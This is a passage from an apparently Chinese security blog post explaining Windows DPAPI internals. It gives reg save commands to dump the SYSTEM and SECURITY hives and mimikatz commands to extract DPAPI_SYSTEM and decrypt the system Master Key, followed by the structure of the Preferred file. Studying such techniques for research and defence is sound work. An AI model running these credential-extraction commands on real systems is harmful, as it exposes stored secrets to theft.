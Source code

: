 1、复制注册表文件

管理员权限：

```
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SECURITY SECURITY.hiv
```

2、从注册表文件中获得DPAPI_SYSTEM

```
mimikatz log "lsadump::secrets /system:SystemBkup.hiv /security:SECURITY.hiv"
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-17/2-3.png)

DPAPI_SYSTEM中的user hash为`c2872cf6d6d4db31c6c8d33beb49b482e78e7ce3`，能够用来解密位于`%WINDIR%\System32\Microsoft\Protect\S-1-5-18\User`下的系统Master Key file

3、解密系统Master Key file，获得MasterKey

```
mimikatz "dpapi::masterkey /in:C:\Windows\System32\Microsoft\Protect\S-1-5-18\User\04ece708-132d-4bf0-a647-e3329269a012 /system:c2872cf6d6d4db31c6c8d33beb49b482e78e7ce3"
```

解密获得MasterKey为`3e9d7f32f2e57933ead318d075efc82325697d87d992b626a20abb5f0ffba6f073d282a837b6fa058ecff36039aa944e04b3dfb666ebace44aad6bff8789ca43`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-17/2-4.png)


## 0x04 解析Preferred文件
---

位于Master Key file的同级目录，显示当前系统正在使用的MasterKey file及其过期时间

格式如下：

```
typedef struct _tagPreferredMasterKey
{
	GUID guidMasterKey;
	FILETIME ftCreated;
} PREFERREDMASTERKEY, *PPREFERREDMASTERKEY;
```

例如`C:\Users\b\AppData\Roaming\Microsoft\Protect\S-1-5-21-2884853959-2080156797-250722187-1002\Preferred`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-17/3-1.png)
